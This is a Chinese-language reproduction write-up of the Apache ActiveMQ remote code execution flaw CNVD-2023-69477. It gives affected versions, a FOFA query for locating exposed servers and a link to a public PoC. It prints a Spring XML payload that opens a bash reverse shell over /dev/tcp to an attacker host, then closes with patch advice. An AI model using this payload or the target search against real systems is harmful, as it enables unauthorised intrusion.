 
# Apache ActiveMQ RCE 漏洞复现（CNVD-2023-69477）

### 0x01 产品简介

  [ActiveMQ](https://so.csdn.net/so/search?q=ActiveMQ&spm=1001.2101.3001.7020)是一个开源的消息代理和集成模式服务器，它支持 Java 消息服务 (JMS) API。它是 Apache Software Foundation 下的一个项目，用于实现消息中间件，帮助不同的应用程序或系统之间进行通信。

### 0x02 漏洞概述

 Apache ActiveMQ 中存在远程代码执行漏洞，Apache ActiveMQ 在默认安装下开放了 61616 服务端口，而该端口并没有对传入数据进行适当的过滤，从而使攻击者能够构造恶意数据以实现远程代码执行。

### 0x03 影响范围

Apache ActiveMQ < 5.18.3

Apache ActiveMQ < 5.17.6

Apache ActiveMQ < 5.16.7

Apache ActiveMQ < 5.15.16 

### 0x04 复现环境

FOFA：app="APACHE-ActiveMQ" && port="61616"

![b1d19830b3eb42439cf5a379fdb8f821.png](assets/1698896344-a60ed524e71d9d8b6386cefd6307d3c0.png)

### 0x05 漏洞复现

PoC 地址：[https://github.com/trganda/ActiveMQ-RCE](https://github.com/trganda/ActiveMQ-RCE "https://github.com/trganda/ActiveMQ-RCE")

把项目 Get 到本地，导入 IDEA 中运行

![74854985a16d47dfae882dd50decf702.png](assets/1698896344-754c63dfa808a0b1e179883c8ef8d7db.png)

 直接运行会发现报错：java: 警告：源发行版 11 需要目标发行版 11

PS:这种一般是你 idea 的 配置文件 iml 与 项目中 配置的 jdk 版本是不一致导致的

![6cbc9d691fe548ccbca9e68eb61b210d.png](assets/1698896344-df9cf1ffbe0f75f4b2ba39e24e800086.png)

这里需要安装 jdk11，配置项目

![3a5ae44b65144c05bed9c8d823556339.png](assets/1698896344-1ed8523c71408467a21e57ac9cf5632a.png)

 **漏洞利用**

修改 Main.java 以下两处

![f48ef75660ff44cb9caa860d0ee83b35.png](assets/1698896344-3c6a9bd34c170bde0f05592ed7bb8c6b.png)

**反弹 shell** 

将 rce.xml，上传至 vps

```http
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[bash -i >& /dev/tcp/your-ip/6666 0>&1]]></value>
          </list>
        </constructor-arg>
    </bean>
```

利用 python 开启 http 服务 

![79b958ad02784db9a00e76e8ee75a551.png](assets/1698896344-04047623af38bfd37a5df8e8833a3ace.png)

nc 开启监听

![7d5fea03fec84a4b84b45b84922c4465.png](assets/1698896344-2f54dfe81d4a03e50e97f5c13c562390.png)

运行 Main.java

![499c87a5b2c54c4997bf538ca9a717cf.png](assets/1698896344-c6a44a03c23e11bf05d0e26266c0e7d4.png)

成功反弹 shell

![2618ec354d534345bbf22d0d8b813d8b.png](assets/1698896344-3955620b4068a2f0bf4e6820fdba4ed9.png)

### ![2adaf923474647acbfcde701749e153f.png](assets/1698896344-c86b60159ad981760d558468359e6df2.png)

### 0x06 修复建议 

**临时缓解方案**

通过网络 ACL 策略限制访问来源，例如只允许来自特定 IP 地址或地址段的访问请求。

**升级修复方案**

目前官方已通过限制反序列化类只能为 Throwable 的子类的方式来修复此漏洞。建议受影响用户可以更新到：

Apache ActiveMQ >= 5.18.3

Apache ActiveMQ >= 5.17.6

Apache ActiveMQ >= 5.16.7

Apache ActiveMQ >= 5.15.16

https://github.com/apache/activemq/tags
